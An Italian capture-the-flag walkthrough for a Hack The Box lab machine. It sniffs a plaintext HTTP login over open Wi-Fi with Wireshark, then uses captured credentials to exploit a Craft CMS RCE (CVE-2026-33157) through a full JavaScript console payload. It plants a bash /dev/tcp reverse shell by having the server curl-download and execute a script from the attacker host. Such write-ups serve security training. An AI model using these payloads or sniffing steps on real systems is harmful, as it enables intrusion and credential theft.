




# Layover

IP vittima: 10.129.247.182
IP attaccante: 10.10.15.73
**Credenziali iniziali fornite da Hack The Box:**

```text
Username: contractor
Password: Contractor2026!
```
# Foothold
## 1. Ricognizione iniziale con Nmap

Iniziamo individuando le porte TCP aperte sul target.

Da Parrot eseguiamo:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn 10.129.247.82 -oG porte
```

Spiegazione delle opzioni:

- `-sS`: esegue una scansione TCP SYN.
- `-Pn`: considera il target attivo senza effettuare prima il ping.
- `-p-`: analizza tutte le 65.535 porte TCP.
- `--min-rate 5000`: imposta una velocità minima di invio dei pacchetti.
- `-oN`: salva il risultato in un file.

**Risultato:**

```text
PORT     STATE SERVICE
22/tcp   open  ssh
3389/tcp open  ms-wbt-server
```

Abbiamo trovato due porte aperte: SSH sulla 22 e RDP sulla 3389.

Approfondiamo le versioni dei servizi:

```bash
sudo nmap -sC -sV -O -p22,3389 10.129.247.82 -oN servizi
```

- `-sC`: esegue gli script predefiniti di Nmap.
- `-sV`: identifica le versioni dei servizi.
- `-O`: rileva il sistema operativo
- `-p 22,3389`: limita la scansione alle due porte individuate.

Il risultato conferma:

```text
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 9.6p1 Ubuntu 3ubuntu13.19 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows
```

La porta 3389 permette di tentare l'accesso attraverso un client RDP.
## 2. Accesso alla workstation tramite RDP

Da Parrot utilizziamo FreeRDP con le credenziali fornite:

```bash
xfreerdp3 /v:10.129.247.82 /u:contractor /cert:ignore /dynamic-resolution
```

Spiegazione:

- `/v:`: indirizzo del server RDP.
- `/u:`: nome utente.
- `/cert:ignore`: ignora gli errori di verifica del certificato del laboratorio.
- `/dynamic-resolution`: adatta la risoluzione della sessione quando ridimensioniamo la finestra.

Quando viene richiesto domain premiamo invio
Quando viene richiesta la password, inseriamo:

```text
Contractor2026!
```

L'autenticazione riesce e otteniamo una sessione grafica XFCE.
Apriamo il terminale della macchina remota.
### 2.1 Identificazione del sistema

Eseguiamo:

```bash
whoami
id
hostnamectl
```

Otteniamo:

```text
contractor
uid=1001(contractor) gid=1001(contractor)
groups=1001(contractor),27(sudo),111(netdev),121(wireshark)
```

Le informazioni sul sistema indicano:

```text
Static hostname: airside-ws01
       Icon name: computer-container
         Chassis: container ☐
      Machine ID: cf61d8289fad4c65be4cf5fb939c0ece
         Boot ID: ae6f613f92484538ace5662f35b3f0ac
  Virtualization: lxc
Operating System: Ubuntu 24.04.4 LTS              
          Kernel: Linux 6.8.0-142-generic
    Architecture: x86-64
```

Siamo quindi all'interno di un container LXC chiamato `airside-ws01`.

Due gruppi sono particolarmente interessanti:

- `netdev`: associato alla gestione delle interfacce di rete.
- `wireshark`: può consentire la cattura del traffico senza privilegi root.

Verifichiamo inoltre i privilegi sudo:

```bash
sudo -l
```

Dopo aver inserito la password di `contractor`, otteniamo:

```text
User contractor may run the following commands on airside-ws01:
    (ALL : ALL) ALL
```

Significa che `contractor` può eseguire qualsiasi comando come root all'interno della workstation.
Questo non significa però avere privilegi root sull'host LXD che ospita i container.
## 3. Enumerazione delle interfacce di rete

Analizziamo la configurazione di rete della workstation.

```bash
ip -br addr
ip route
```

L'output mostra:

```text
lo          UNKNOWN  127.0.0.1/8
wlan2       DOWN
wlan3       DOWN
eth0@if11   UP       10.159.143.45/24
```

La route predefinita iniziale è:

```text
default via 10.159.143.1 dev eth0
```

Il sistema possiede quindi:

- `eth0`: interfaccia Ethernet con IP `10.159.143.45`.
- `wlan2`: interfaccia Wi-Fi non connessa.
- `wlan3`: seconda interfaccia Wi-Fi non connessa.

La presenza di due interfacce wireless suggerisce di approfondire la ricognizione Wi-Fi.
### 3.1 Verifica delle interfacce wireless

```bash
iw dev
```

```
phy#3
	Interface wlan3
		ifindex 7
		wdev 0x300000001
		addr 02:00:00:00:03:00
		type managed
		txpower 20.00 dBm
		multicast TXQ:
			qsz-byt	qsz-pkt	flows	drops	marks	overlmt	hashcol	tx-bytes	tx-packets
			0	0	0	0	0	0	0	0		0
phy#2
	Unnamed/non-netdev interface
		wdev 0x200000002
		addr 42:00:00:00:02:00
		type P2P-device
		txpower 20.00 dBm
	Interface wlan2
		ifindex 6
		wdev 0x200000001
		addr 02:00:00:00:02:00
		type managed
		txpower 20.00 dBm
		multicast TXQ:
			qsz-byt	qsz-pkt	flows	drops	marks	overlmt	hashcol	tx-bytes	tx-packets
			0	0	0	0	0	0	0	0		0
```

Il comando conferma che `wlan2` e `wlan3` esistono e sono configurate in modalità `managed`.

Verifichiamo anche NetworkManager:

```bash
nmcli device status
```

Entrambe risultano:

```text
wlan2   wifi   disconnected
wlan3   wifi   disconnected
```
## 4. Scansione delle reti Wi-Fi

Utilizziamo `wlan2` per individuare le reti wireless disponibili. Questo comando richiede una nuova scansione delle reti wireless.

```bash
sudo nmcli device wifi rescan ifname wlan2
```

Visualizziamo i risultati:

```bash
nmcli -f IN-USE,SSID,BSSID,CHAN,SIGNAL,SECURITY device wifi list ifname wlan2
```

Otteniamo:

```text
IN-USE  SSID                    BSSID              CHAN  SIGNAL  SECURITY 
        HTB International WiFi  02:00:00:00:00:00  6     100     --
```

Abbiamo individuato un access point:

- **SSID:** HTB International WiFi
- **BSSID:** `02:00:00:00:00:00`
- **Canale:** 6
- **Sicurezza:** nessuna

La rete è aperta, quindi non richiede una password.
### 4.1 Collegamento alla rete Wi-Fi

Eseguiamo:

```bash
nmcli device wifi connect "HTB International WiFi" ifname wlan2
```

La connessione riesce.

```
Device 'wlan2' successfully activated with '5f7696bf-5fa2-4b25-ba00-5d47385b2ceb'.
```

Si apre una finestra del browser che conferma la connessione alla rete (vedi punto 5):

Verifichiamo la nuova configurazione:

```bash
ip -4 -br addr
ip route
```

L'interfaccia `wlan2` ha ottenuto:

```text
wlan2 UP 10.13.37.182/24
```

La nuova rete è:

```text
10.13.37.0/24
```

Il gateway è:

```text
10.13.37.1
```

Ora la workstation è collegata contemporaneamente a due reti:

| Interfaccia | Rete              | IP              |
| ----------- | ----------------- | --------------- |
| `eth0`      | `10.159.143.0/24` | `10.159.143.45` |
| `wlan2`     | `10.13.37.0/24`   | `10.13.37.182`  |
## 5. Scoperta del portale HTB Airways Miles

Dopo la connessione Wi-Fi viene visualizzato il portale passeggeri di HTB International Airport.



All'interno della pagina compare un avviso che segnala la presenza del servizio:

```text
http://portal.international.htb/miles/
```

Apriamo l'indirizzo col browser.

La pagina presenta il modulo di autenticazione di **HTB Airways Miles**.



Proviamo le credenziali iniziali:

```text
Username: contractor
Password: Contractor2026!
```

L'accesso riesce.

Abbiamo verificato che le credenziali della workstation vengono riconosciute anche dal portale Miles.
Tuttavia, il sito utilizza **HTTP e non HTTPS**: le informazioni inviate dal browser, quindi, non sono protette dalla cifratura TLS. Decidiamo quindi di analizzare il traffico wireless.
### 5.1 Identificazione dell'IP del portale con Wireshark

Dalla sessione grafica di `airside-ws01`, apriamo Wireshark. Wireshark permette di catturare e analizzare i pacchetti di rete attraverso un'interfaccia grafica.

Nella schermata iniziale vengono mostrate le interfacce disponibili, tra cui:

- `eth0`: interfaccia Ethernet.
- `wlan2`: interfaccia connessa a HTB International WiFi.
- `wlan3`: seconda interfaccia wireless.

Vogliamo scoprire l'indirizzo IP del sito:

```text
http://portal.international.htb/miles/
```

Possiamo farlo direttamente con Wireshark, analizzando il traffico DNS.

Avviamo Wireshark. 
Nella schermata iniziale facciamo doppio clic sull'interfaccia `**wlan2**`, quella collegata alla rete HTB International WiFi, per avviare la cattura.

Generiamo una richiesta al portale. Apriamo il browser e visitiamo:

```text
http://portal.international.htb/miles/
```

Torniamo a Wireshark e interrompiamo la cattura premendo il pulsante rosso **Stop**.

**3. Cerchiamo le richieste DNS**

Nella barra superiore _Display Filter_ inseriamo:

```text
dns
```

Premiamo `Invio`.

Wireshark mostra i pacchetti DNS, utilizzati per tradurre i nomi dei siti nei rispettivi indirizzi IP.

Cerchiamo una riga simile a questa:

```text
Standard query response ... A portal.international.htb
```

Selezioniamo il pacchetto e, nella sezione centrale di Wireshark, espandiamo:

**Domain Name System → Answers**

Troviamo il record:

```text
portal.international.htb: type A, addr 10.13.37.10
```

Abbiamo quindi scoperto che:

```text
portal.international.htb → 10.13.37.10
```

Il portale si trova nella rete `10.13.37.0/24`, alla quale siamo collegati attraverso `wlan2`.


## 6. Configurazione della modalità monitor

Ora vogliamo analizzare anche il traffico degli altri dispositivi collegati a HTB International WiFi.

Per farlo utilizziamo la seconda interfaccia wireless, `wlan3`, lasciando `wlan2` connessa alla rete.

La normale modalità `managed` permette alla scheda di comunicare con l'access point. La modalità `monitor`, invece, permette di catturare frame wireless 802.11, compresi quelli appartenenti ad altri client quando sono ricevibili.
### 6.1 Verifichiamo il supporto della modalità monitor

Nel terminale di `airside-ws01` eseguiamo:

```bash
iw list | grep -A 12 "Supported interface modes"
```

Tra le modalità supportate troviamo:

```text
* managed
* AP
* monitor
```

La scheda supporta quindi la modalità monitor.
### 6.2 Attiviamo la modalità monitor su wlan3

Eseguiamo:

```bash
sudo ip link set wlan3 down
sudo iw dev wlan3 set type monitor
sudo ip link set wlan3 up
```

Spiegazione:

- Il primo comando disattiva temporaneamente `wlan3`.
- Il secondo imposta la modalità `monitor`.
- Il terzo riattiva l'interfaccia.

Non modifichiamo `wlan2`, così da mantenere la connessione alla rete Wi-Fi.
### 6.3 Impostiamo il canale Wi-Fi

Dalla precedente scansione delle reti sappiamo che **HTB International WiFi utilizza il canale 6**.

Impostiamo quindi lo stesso canale su `wlan3`:

```bash
sudo iw dev wlan3 set channel 6
```

Verifichiamo la configurazione:

```bash
iw dev wlan3 info
```

Otteniamo:

```text
Interface wlan3
type monitor
channel 6 (2437 MHz)
```

La scheda è pronta.
## 7. Intercettazione del traffico wireless con Wireshark

Torniamo a Wireshark.
### 7.1 Avviamo la cattura su wlan3

**1.** Apriamo il menu **Capture → Options**.
**2.** Nella finestra delle opzioni selezioniamo l'interfaccia `wlan3`.
**3.** Verifichiamo che l'interfaccia sia in modalità monitor. Se Wireshark mostra l'opzione _Monitor Mode_, deve risultare abilitata.
**4.** Avviamo la cattura con **Start**.

Wireshark comincia a mostrare i pacchetti ricevuti dalla scheda wireless.

Possiamo lasciare la cattura attiva mentre gli altri client utilizzano la rete.
### 7.2 Individuiamo il traffico HTTP

Nella barra _Display Filter_ inseriamo:

```wireshark
http
```

Questo filtro mostra solamente i pacchetti che Wireshark riconosce come HTTP.

Poiché il portale Miles utilizza HTTP sulla porta 80, il contenuto delle richieste non è protetto dalla cifratura TLS.

Per restringere il traffico al portale utilizziamo:

```wireshark
ip.addr == 10.13.37.10 && http
```

Il filtro significa:

- `ip.addr == 10.13.37.10`: seleziona i pacchetti inviati o ricevuti dal portale.
- `&&`: operatore logico AND.
- `http`: seleziona il traffico HTTP.

Ora vediamo soltanto le comunicazioni HTTP che coinvolgono il server Miles.
### 7.3 Individuiamo le richieste POST

Il modulo di autenticazione del portale invia le credenziali mediante una richiesta HTTP POST.

Possiamo quindi cercare direttamente questo tipo di richiesta.

Inseriamo il filtro:

```wireshark
http.request.method == "POST"
```

Wireshark mostra soltanto le richieste HTTP POST catturate.

Tra i risultati troviamo una richiesta interessante:

```text
Source         Destination     Protocol  Info
10.13.37.132   10.13.37.10    HTTP      POST /miles/login.php HTTP/1.1
```

Abbiamo identificato un dispositivo con IP `10.13.37.132` che sta tentando di autenticarsi al portale `10.13.37.10`.

Per isolare esattamente queste richieste, possiamo utilizzare:

```wireshark
ip.src == 10.13.37.132 && ip.dst == 10.13.37.10 && http.request.method == "POST"
```

Il filtro mostra soltanto le richieste POST provenienti da quel client e dirette al portale.
## 8. Recupero delle credenziali di Jenny Crawford con Wireshark

Abbiamo individuato una richiesta HTTP POST verso:

```text
/miles/login.php
```

Ora vogliamo leggere le informazioni inviate al server.
### 8.1 Esaminiamo il contenuto della richiesta POST

In Wireshark facciamo clic sulla richiesta:

```http
POST /miles/login.php HTTP/1.1
```

La finestra di Wireshark è suddivisa in tre sezioni:

- **Packet List:** elenco dei pacchetti catturati.
- **Packet Details:** struttura del pacchetto selezionato.
- **Packet Bytes:** byte originali del pacchetto.

Nella sezione centrale, _Packet Details_, espandiamo:

```text
HTML Form URL Encoded: application/x-www-form-urlencoded
```

Qui troviamo i parametri trasmessi dal modulo di autenticazione:

```text
username: jenny
password: Fl1ghtDeck2026!
```

Abbiamo recuperato le credenziali di un altro utente del portale.


### 8.2 Visualizziamo l'intera conversazione HTTP

Un metodo ancora più semplice consiste nell'utilizzare la funzionalità **Follow TCP Stream** di Wireshark.

Con la richiesta POST selezionata:

1. Facciamo clic con il pulsante destro sul pacchetto.
2. Selezioniamo **Follow → TCP Stream**.
3. Si apre una finestra contenente i dati scambiati tra client e server.

Nella finestra troviamo la richiesta HTTP originale:

```http
POST /miles/login.php HTTP/1.1
Host: portal.international.htb
User-Agent: curl/8.5.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

username=jenny&password=Fl1ghtDeck2026!HTTP/1.1 200 OK
```

Wireshark ricostruisce il flusso TCP, permettendoci di leggere direttamente il contenuto applicativo senza dover convertire manualmente i byte.

Abbiamo quindi ottenuto:

```text
Username: jenny
Password: Fl1ghtDeck2026!
```
### 8.3 Verifichiamo che l'autenticazione sia riuscita

La funzione _Follow TCP Stream_ permette anche di esaminare la risposta del server alla richiesta di login.

Nel flusso cerchiamo la risposta HTTP:

```http
HTTP/1.1 200 OK
```

Il codice `200` indica che il server ha elaborato la richiesta, ma da solo non dimostra che l'autenticazione sia riuscita.

Proseguiamo quindi nell'esame del contenuto HTML restituito dal server.

Nella risposta troviamo:

```html
<title>HTB Airways Miles — Jenny Crawford</title>
<h1>Jenny Crawford</h1>
```

Il portale ha restituito la pagina personale di Jenny Crawford.

Questo conferma che le credenziali intercettate sono valide.

**Abbiamo ottenuto le credenziali di Jenny Crawford analizzando esclusivamente il traffico HTTP attraverso l'interfaccia grafica di Wireshark.**

A questo punto possiamo proseguire con l'enumerazione del portale e tentare l'autenticazione al pannello amministrativo Craft CMS.
## 9. Identificazione di Craft CMS

Ora che possediamo nuove credenziali, approfondiamo il server web `10.13.37.10`.

Dal terminale di `airside-ws01` eseguiamo:

```bash
curl -I http://10.13.37.10/robots.txt
```

L'opzione `-I` mostra gli header HTTP.

Il server restituisce:

```http
HTTP/1.1 404 Not Found
Server: nginx/1.24.0 (Ubuntu)
Date: Tue, 17 Nov 2026 22:01:28 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Set-Cookie: CraftSessionId=65e18tee0vl45mrh50cr6jjvmv; path=/; HttpOnly
X-Robots-Tag: none
X-Powered-By: Craft CMS
Expires: 0
Pragma: no-cache
Cache-Control: no-cache, no-store, must-revalidate
Set-Cookie: CRAFT_CSRF_TOKEN=1576691fc04d168dde31a680cfd33e57cd76063ffe83c3f0a23860a240e61608a%3A2%3A%7Bi%3A0%3Bs%3A16%3A%22CRAFT_CSRF_TOKEN%22%3Bi%3A1%3Bs%3A40%3A%22etRyP2pq0O95dGa83c2VcNDMqd_GvVkNKafDZjR8%22%3B%7D; path=/; HttpOnly
```

Nonostante il codice `404`, abbiamo scoperto un'informazione fondamentale:

**Il server utilizza Craft CMS.**

La richiesta a `/robots.txt` viene infatti gestita dal CMS, che produce una pagina di errore personalizzata.

### 9.1 Individuiamo il pannello amministrativo

Craft CMS utilizza normalmente `/admin` come percorso del pannello di controllo.

Verifichiamo:

```bash
curl -i http://portal.international.htb/admin
```

Il risultato è:

```http
HTTP/1.1 302 Found
Server: nginx/1.24.0 (Ubuntu)
Date: Tue, 17 Nov 2026 22:03:46 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Set-Cookie: CraftSessionId=f3rb7i3a8c6da62arlolpgg84q; path=/; HttpOnly
Expires: 0
Pragma: no-cache
Cache-Control: no-cache, no-store, must-revalidate
X-Robots-Tag: none
Content-Security-Policy: frame-ancestors 'self'
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-Powered-By: Craft CMS
Location: http://portal.international.htb/admin/login
```

Abbiamo identificato il login amministrativo:

```text
http://portal.international.htb/admin/login
```

### 9.2 Accesso come Jenny

Apriamo la pagina nel browser e utilizziamo le credenziali intercettate:

```text
Username: jenny
Password: Fl1ghtDeck2026!
```

L'accesso riesce.

**Abbiamo ottenuto accesso al pannello amministrativo di Craft CMS.**
## 10. Identificazione della versione di Craft CMS

Nel pannello amministrativo apriamo:

**Utilities → System Report**

Il report mostra:

|Componente|Versione|
|---|---|
|Craft CMS|5.9.8 Solo|
|PHP|8.3.6|
|Sistema operativo|Linux 6.8.0-142-generic|
|MariaDB|10.11.14|
|Yii|2.0.54|
|Twig|3.21.1|
|Guzzle|7.14.2|

Conosciamo quindi la versione esatta dell'applicazione.

Durante la ricerca delle vulnerabilità note individuiamo:

**CVE-2026-33157 — Authenticated Remote Code Execution in Craft CMS**

La vulnerabilità interessa Craft CMS nelle versioni da 5.6.0 fino a 5.9.12 ed è stata corretta nella 5.9.13.

La versione installata, **5.9.8, rientra nell'intervallo vulnerabile**.

La vulnerabilità riguarda il metodo:

```php
ElementIndexesController::actionFilterHud()
```

Il parametro `fieldLayouts` viene elaborato senza rimuovere determinate configurazioni pericolose di Yii.

Un utente autenticato che può accedere al pannello amministrativo può quindi costruire una configurazione capace di provocare l'esecuzione di comandi sul server.

Abbiamo già soddisfatto il requisito di autenticazione attraverso l'account Jenny.
## 11. Sfruttamento della CVE-2026-33157

L'obiettivo è ottenere una reverse shell dal server Craft CMS verso la nostra workstation `airside-ws01`.

Il percorso della connessione sarà:

```text
portal (10.13.37.10)
        |
        | Reverse shell TCP/4444
        v
airside-ws01 (10.13.37.182)
        |
        | Sessione RDP
        v
Parrot (10.10.15.73)
```
### 11.1 Prepariamo uno script Bash per la reverse shell

Dal terminale di `airside-ws01`, creiamo una directory:

```bash
mkdir -p /tmp/layover-www
```

Creiamo lo script `shell.sh`:

```bash
cat > /tmp/layover-www/shell.sh <<'EOF'
#!/bin/bash
bash -i >& /dev/tcp/10.13.37.182/4444 0>&1
EOF
```

Spiegazione dello script:

- `#!/bin/bash`: specifica l'interprete Bash.
- `bash -i`: avvia una shell interattiva.
- `/dev/tcp/10.13.37.182/4444`: apre una connessione TCP verso la workstation.
- `>&`: reindirizza standard output e standard error verso la connessione.
- `0>&1`: reindirizza anche lo standard input.

In questo modo i comandi che invieremo attraverso Netcat saranno eseguiti sul server remoto, e i risultati torneranno attraverso la stessa connessione.
### 11.2 Rendiamo disponibile lo script tramite HTTP

Da `airside-ws01` eseguiamo:

```bash
python3 -m http.server 8000 --bind 10.13.37.182 --directory /tmp/layover-www
```

Il comando avvia un semplice server HTTP Python:

- `8000`: porta di ascolto.
- `--bind`: indirizzo IP locale utilizzato.
- `--directory`: directory contenente i file da condividere.

Lo script sarà disponibile all'indirizzo:

```text
http://10.13.37.182:8000/shell.sh
```

Lasciamo il server Python in esecuzione.

### 11.3 Prepariamo il listener Netcat

Apriamo un secondo terminale su `airside-ws01`.

Eseguiamo:

```bash
nc -lvnp 4444
```

Spiegazione:

- `-l`: modalità ascolto.
- `-v`: output dettagliato.
- `-n`: non risolve i nomi DNS.
- `-p 4444`: porta TCP utilizzata.

Il listener rimane in attesa della reverse shell.
### 11.4 Prepariamo l'exploit dalla console del browser

Torniamo nel browser, mantenendo la sessione autenticata di Jenny nel pannello Craft CMS.

Premiamo `F12` e apriamo la scheda **Console**.

Incolliamo il seguente codice JavaScript (se non lo fa incollare dovremo abilitare il pasting con il comando `allow pasting`):

```javascript
window.layoverExec = async (command) => {
    const payload = {
        elementType: 'craft\\elements\\Entry',
        id: 'layover-rce',
        fieldLayouts: [{
            "as rce": {
                "__class": "yii\\behaviors\\AttributeTypecastBehavior",
                "__construct()": [{
                    "attributeTypes": {
                        "typecastBeforeSave": [
                            "Psy\\Readline\\Hoa\\ConsoleProcessus",
                            "execute"
                        ]
                    },
                    "typecastBeforeSave": command
                }]
            },
            "on *": "self::beforeSave"
        }]
    };

    const response = await fetch(
        '/index.php?p=admin/actions/element-indexes/filter-hud',
        {
            method: 'POST',
            credentials: 'same-origin',
            headers: {
                'Accept': 'application/json',
                'Content-Type': 'application/json',
                'X-Requested-With': 'XMLHttpRequest',
                'X-CSRF-Token': Craft.csrfTokenValue
            },
            body: JSON.stringify(payload)
        }
    );

    console.log('HTTP:', response.status);
};
```

#### Spiegazione dell'exploit

Il codice definisce una funzione JavaScript chiamata `layoverExec()` che accetta un comando da eseguire sul server.

`**elementType**`

```javascript
elementType: 'craft\\elements\\Entry'
```

Specifica il tipo di elemento Craft utilizzato nella richiesta.

`**fieldLayouts**`

È il parametro vulnerabile che permette di passare una configurazione controllata dall'attaccante.

`**"as rce"**`

È una chiave speciale delle configurazioni Yii che permette di associare un _behavior_ a un oggetto.

`**AttributeTypecastBehavior**`

È un componente Yii utilizzato per convertire gli attributi di un oggetto. Nell'exploit viene configurato per richiamare una funzione non prevista.

`**ConsoleProcessus**` **e** `**execute**`

Formano il metodo richiamato dalla catena di exploit. Il risultato è l'esecuzione del comando passato alla funzione.

`**"on *": "self::beforeSave"**`

Configura un gestore di eventi che permette di attivare la catena durante la creazione dell'oggetto.

`**fetch()**`

Invia la richiesta HTTP POST al controller vulnerabile di Craft CMS:

```text
/index.php?p=admin/actions/element-indexes/filter-hud
```

L'opzione:

```javascript
credentials: 'same-origin'
```

fa sì che il browser invii i cookie della sessione autenticata di Jenny.

Il token:

```javascript
'X-CSRF-Token': Craft.csrfTokenValue
```

permette alla richiesta di superare la protezione CSRF del pannello.
### 11.5 Verifichiamo la Remote Code Execution

Prima di scaricare la shell, possiamo confermare che il server esegua effettivamente i comandi.

Dalla console:

```javascript
layoverExec("/bin/bash -c 'curl -m 3 -s http://10.13.37.182:8000/layover-rce-test >/dev/null'");
```

Sul terminale che ospita il server HTTP Python otteniamo una richiesta simile:

```text
10.13.37.10 - - "GET /layover-rce-test HTTP/1.1" 404 -
```

Il `404` è normale: il file richiesto non esiste.

Il dato importante è che la richiesta proviene dal server `10.13.37.10`.

**Abbiamo quindi confermato l'esecuzione di comandi sul server Craft CMS.**

È possibile che il browser mostri:

```text
HTTP: 500
```

Questo non significa necessariamente che l'exploit sia fallito. In questo caso la catena ha già eseguito il comando prima che l'applicazione generasse un'eccezione.
### 11.6 Scarichiamo lo script sul server vulnerabile

Sempre nella console, invochiamo la funzione `layoverExec()` passando un comando `curl`:

```javascript
layoverExec("/bin/bash -c 'curl -fsS http://10.13.37.182:8000/shell.sh -o /tmp/layover.sh'");
```

Questo comando viene eseguito dal server Craft CMS.

Il server scarica il nostro script da:

```text
http://10.13.37.182:8000/shell.sh
```

e lo salva localmente in:

```text
/tmp/layover.sh
```

Nel terminale del server HTTP Python vediamo:

```text
10.13.37.10 - - "GET /shell.sh HTTP/1.1" 200 -
```

Il codice HTTP `200` conferma che il file è stato servito correttamente al server remoto.
### 11.7 Eseguiamo lo script e otteniamo la shell

Dalla console eseguiamo:

```javascript
layoverExec("/bin/bash /tmp/layover.sh");
```

Questo comando avvia Bash sul server Craft CMS ed esegue lo script scaricato.

Lo script apre una connessione verso il listener Netcat di `airside-ws01` sulla porta 4444.

Nel terminale Netcat riceviamo una shell:

```text
www-data@portal:~/portal/web$
```

Verifichiamo l'identità dell'utente:

```bash
whoami
id
hostname
```

Risultato:

```text
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
portal
```

**Abbiamo ottenuto il nostro foothold sul server** `**portal**` **come utente** `**www-data**`**.**
## 12. Enumerazione del server Portal

Ora lavoriamo direttamente dalla reverse shell.
### 12.1 Identifichiamo il sistema operativo

```bash
cat /etc/os-release
```

Risultato:

```text
Ubuntu 24.04.4 LTS
```

### 12.2 Cerchiamo gli utenti locali

```bash
ls -la /home
```

Il risultato mostra una directory interessante:

```text
drwxr-x---  3 aporter aporter 4096 Sep 23 13:14 aporter
```

Abbiamo individuato l'utente:

```text
aporter
```

